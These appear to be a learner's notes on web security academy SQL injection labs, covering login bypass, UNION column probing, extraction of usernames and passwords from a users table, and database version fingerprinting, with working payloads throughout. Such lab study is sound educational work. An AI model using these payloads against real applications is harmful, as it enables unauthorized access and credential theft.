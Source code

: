 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases
